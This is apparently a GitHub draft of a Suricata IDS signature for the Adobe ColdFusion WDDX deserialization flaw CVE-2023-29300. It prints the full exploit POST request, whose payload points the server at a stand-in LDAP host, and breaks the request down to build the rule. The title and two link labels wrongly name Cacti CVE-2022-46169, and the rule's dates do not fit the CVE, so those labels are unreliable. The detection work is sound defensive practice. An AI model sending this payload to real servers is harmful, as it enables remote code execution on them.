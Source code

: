 # ET Open Submission (Return from PCRE grave)
### May 1st, 2024
### CVE-2022-46169 (Cacti Unathenticated RCE) Detected


![8olo1g](https://github.com/eatinsundip/Suricata/assets/43767555/aadafd56-30f9-4747-bb3e-2d78dcfa22f4)


## Resources

1. [https://github.com/taythebot/CVE-2022-46169](https://github.com/vulhub/vulhub/tree/master/coldfusion/CVE-2023-29300)
2. [https://github.com/lal0ne/vulnerability/tree/main/Cacti/CVE-2022-46169](https://blog.projectdiscovery.io/adobe-coldfusion-rce/)


## Signature

```alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"Adobe ColdFusion XML Deserialization Leads to RCE (CVE-2023-29300)"; flow:to_server,established; http.method; content:"POST"; http.uri; content:"/CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true"; http.request_body; content:"argumentCollection|3d 3c|wddxPacket|20|version|3d 27|1|2e|0|27 3e 3c|header|2f 3e 3c|data|3e 3c|struct|20|type|3d 27|xcom|2e|sun|2e|rowset|2e|JdbcRowSetImplx|27 3e 3c|var|20|name|3d 27|dataSourceName|27 3e 3c|string|3e|ldap|3a 2f 2f|"; pcre:"/^.{3,100}/"; content:"|3c 2f|string|3e 3c 2f|var|3e 3c|var|20|name|3d 27|autoCommit|27 3e 3c|boolean|20|value|3d 27|true|27 2f 3e 3c 2f|var|3e 3c 2f|struct|3e 3c 2f|data|3e 3c 2f|wddxPacket|3e|"; sid:1; rev:1; metadata:attack_target Server, created_at 2022_01_04, deployment Perimeter, deployment Internal, former_category EXPLOIT, signature_severity Major, tag Exploit, updated_at 2023_01_04;)```

^^ Still needs editing and a fast_pattern

[Job-CVE-2023-29300.zip](https://github.com/eatinsundip/Suricata/files/15173814/flowsynth-CVE-2023-29300.zip)

[http://dalton.securitymidwest.net/dalton/job/3cbf2c602f167d02](http://dalton.securitymidwest.net/dalton/job/3cbf2c602f167d02)


The exploit itself:


POST /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.134 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 333


argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='xcom.sun.rowset.JdbcRowSetImplx'><var name='dataSourceName'><string>ldap://your.ldap.server/example</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>


Breaking down this post request
	• Http.method
		○ POST
	• I plan to test headers manually with the exploit to see if they are required or not. I doubt they are so they are not added right now.
	• Http.uri
		○ /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true
	• Http.request_body
		○ argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='xcom.sun.rowset.JdbcRowSetImplx'><var name='dataSourceName'><string>ldap://
		○ PCRE for any ldap server name or possible IP. I chose I very broad pcre for this.
		○ </string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>

CURRENT ALERT:

alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"Adobe ColdFusion XML Deserialization Leads to RCE (CVE-2023-29300)"; flow:to_server,established; http.method; content:"POST"; http.uri; content:"/CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true"; http.request_body; content:"argumentCollection|3d 3c|wddxPacket|20|version|3d 27|1|2e|0|27 3e 3c|header|2f 3e 3c|data|3e 3c|struct|20|type|3d 27|xcom|2e|sun|2e|rowset|2e|JdbcRowSetImplx|27 3e 3c|var|20|name|3d 27|dataSourceName|27 3e 3c|string|3e|ldap|3a 2f 2f|"; pcre:"/^.{3,100}/"; content:"|3c 2f|string|3e 3c 2f|var|3e 3c|var|20|name|3d 27|autoCommit|27 3e 3c|boolean|20|value|3d 27|true|27 2f 3e 3c 2f|var|3e 3c 2f|struct|3e 3c 2f|data|3e 3c 2f|wddxPacket|3e|"; sid:1; rev:1; metadata:attack_target Server, created_at 2022_01_04, deployment Perimeter, deployment Internal, former_category EXPLOIT, signature_severity Major, tag Exploit, updated_at 2023_01_04;)


## NOTES
Need to test what headers are even necessary in the actual exploit.
